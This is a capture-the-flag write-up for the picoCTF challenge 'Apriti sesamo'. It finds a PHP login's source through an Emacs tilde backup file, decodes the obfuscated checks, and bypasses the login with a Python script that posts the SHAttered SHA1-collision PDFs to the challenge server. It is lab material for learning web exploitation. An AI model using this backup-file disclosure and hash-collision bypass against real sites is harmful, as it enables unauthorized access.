






### Challenge: Apriti sesamo
### Difficulty: Medium
#### Prepared by: deathwish24

The author of this challenge claims that found an unhackable website.
But he is wrong, because we are here to hack it.

By entering the website, we can see a button that says "Login":
<p align="center">

</p>

Clicking on it, we are redirected to a page where we can enter our username and password:
<p align="center">

</p>

If we look closely at the URL, we can see that the login page is a php file:
```
http://verbal-sleep.picoctf.net:57184/impossibleLogin.php
```

If we try to enter a random username and password, we get the following error:
<p align="center">

</p>

Looking at the source code of the page, again we can't find anything interesting.
<p align="center">

</p>

So let's have a look at the hints now.

The first hint says:
```
Backup files
```
The second hint says:
```
Rumor has it, the lead developer is a militant emacs user
```

So let's try to look for backup files in the website.

Googling for backup files on Emacs, we find out that the backup files are usually named with a tilde (~) at the end of the filename.
So let's try to add a tilde at the end of the URL:

```
http://verbal-sleep.picoctf.net:57184/impossibleLogin.php~
```

And now the source code of the page is different:
<p align="center">

</p>

This is a PHP script but its base64 encoded.
So let's try to decode it:

```php
echo base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d") . "\n";
echo base64_decode("\143\x48\x64\153") . "\n";

echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d") . "\n";
echo  base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75") . "\n";
```

This code gives the following output:
```
username
pwd
<br/>Failed! No flag for you
../flag.txt
```

And by that we can reconstruct the original code:
```php
if (isset($_POST['username']) && isset($_POST['pwd'])) {
    $yuf85e0677 = $_POST['username'];
    $rs35c246d5 = $_POST['pwd'];

    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br>failed!<br>";
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br>failed!<br>";
        }
    }
}
```

So the code is checking if the username and password are the same, and if they are not, it checks if their SHA1 hashes are the same.
If they are, it returns the content of the file `../flag.txt`, which is the flag.

The first thing that comes to mind is to use the hash collision attack.

Searching for SHA1 hash collisions, I found a post on LinkedIn that was on a similar challenge.
The post is from a guy called "Rotimi Akinyele" and it says:

<p align="center">

</p>

Scrolling down, I found a script that generates a hash collision for SHA1:
```python
import requests
import urllib2
rotimi = urllib2.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
letmein = urllib2.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];
 
r = requests.get('http://54.202.82.13/', params={'name': rotimi, 'password': letmein});
print r.text
```

This script uses the two files `shattered-1.pdf` and `shattered-2.pdf` to generate a hash collision for SHA1.

So let's try to patch the script to use our own URL and see if it works.

```python
import requests
from urllib.request import urlopen

# Download the full content of the PDF files
input1 = urlopen("http://shattered.io/static/shattered-1.pdf").read()
input2 = urlopen("http://shattered.io/static/shattered-2.pdf").read()

# Send a POST request with the PDF content as form data
r = requests.post('http://verbal-sleep.picoctf.net:57184/impossibleLogin.php', data={'username': input1, 'pwd': input2})

# Print the response
print(r.text)
```

Now let's run the script and see what we get:
```bash
$ python3 script.py
<!DOCTYPE html>
<html>
<head>
    <title>Login Page</title>
</head>
<body style="text-align:center;">
    <pre>
 _               _         _  __                                       
| |             (_)       (_)/ _|                                      
| | ___   __ _   _ _ __    _| |_   _   _  ___  _   _    ___ __ _ _ __  
| |/ _ \ / _` | | | '_ \  | |  _| | | | |/ _ \| | | |  / __/ _` | '_ \ 
| | (_) | (_| | | | | | | | | |   | |_| | (_) | |_| | | (_| (_| | | | |
|_|\___/ \__, | |_|_| |_| |_|_|    \__, |\___/ \__,_|  \___\__,_|_| |_|
          __/ |                     __/ |                              
         |___/                     |___/                               


    </pre>
    <br/>
    <form action="impossibleLogin.php" method="post">
        <label for="username">Username:</label><br>
        <input type="text" id="username" name="username"><br>
        <label for="pwd">Password:</label><br>
        <input type="password" id="pwd" name="pwd"><br><br>
        <input type="submit" value="Login">
    </form>
</body>
</html>

picoCTF{...._........_....._........}
```

And there we go, we have the flag!

### Sources:
- [Emacs backup files](https://stackoverflow.com/questions/151945/how-do-i-control-how-emacs-makes-backup-files)
- [SHA1 hash collision attack post](https://www.linkedin.com/pulse/using-sha1-collision-attack-solve-bostonkeyparty-ctf-rotimi/)

